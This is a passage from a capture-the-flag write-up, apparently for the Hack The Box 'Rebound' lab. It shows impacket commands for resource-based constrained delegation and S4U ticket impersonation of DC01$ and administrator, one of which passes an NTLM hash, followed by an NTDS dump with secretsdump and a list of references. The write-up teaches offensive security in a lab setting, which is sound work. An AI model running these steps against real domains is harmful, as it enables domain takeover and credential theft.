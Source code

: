 <img src="https://i.imgur.com/Zome3Xl.png"/>

```bash
impacket-rbcd 'rebound.htb/delegator$' -k -no-pass -delegate-to 'delegator$' -action write -delegate-from ldap_monitor -use-ldaps -dc-ip 10.10.11.231
```

<img src="https://i.imgur.com/BBPB7Fc.png"/>

Requesting this account's TGT and then impersonating as DC01$, reason being we can't impersonate as administrator as it's not allowed to be delegated 

<img src="https://i.imgur.com/7LRmouM.png"/>

```bash
getST.py -spn "browser/dc01.rebound.htb" -impersonate "dc01$" "rebound.htb/ldap_monitor" -k -no-pass 
```

<img src="https://i.imgur.com/c9rCgXR.png"/>
<img src="https://i.imgur.com/SlCIYEw.png"/>
Now impersonating as DC01$ with HTTP SPN with the ticket obtained from browser SPN

```bash
getST.py -spn "http/dc01.rebound.htb" -impersonate "administrator" -additional-ticket "dc01\$.ccache" rebound.htb/'delegator$' -hashes :'CD903918320095660FF2E12072F5551C'
```

<img src="https://i.imgur.com/fvctFvZ.png"/>

Make sure now to have `dc01.rebound.htb` in hosts file

<img src="https://i.imgur.com/hdgVTui.png"/>

With secretsdump NTDS file can now be dumped

<img src="https://i.imgur.com/bNZmMHQ.png"/>

<img src="https://i.imgur.com/l3z6FEy.png"/>

# References

- https://www.thehacker.recipes/ad/movement/kerberos/kerberoast
- https://github.com/fortra/impacket/tree/e915faa15c13a1f68bd6e067f8f9a8de21cef7d7
- https://www.semperis.com/blog/new-attack-paths-as-requested-sts/
- https://github.com/aniqfakhrul/powerview.py.git
- https://www.thehacker.recipes/a-d/movement/dacl
- http://www.selfadsi.org/deep-inside/ad-security-descriptors.htm
- http://www.pseale.com/pretend-youre-on-the-domain-with-runas-netonly
- https://github.com/antonioCoco/RemotePotato0
- https://github.com/rvazarkar/GMSAPasswordReader
- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained
- https://github.com/FuzzySecurity/StandIn
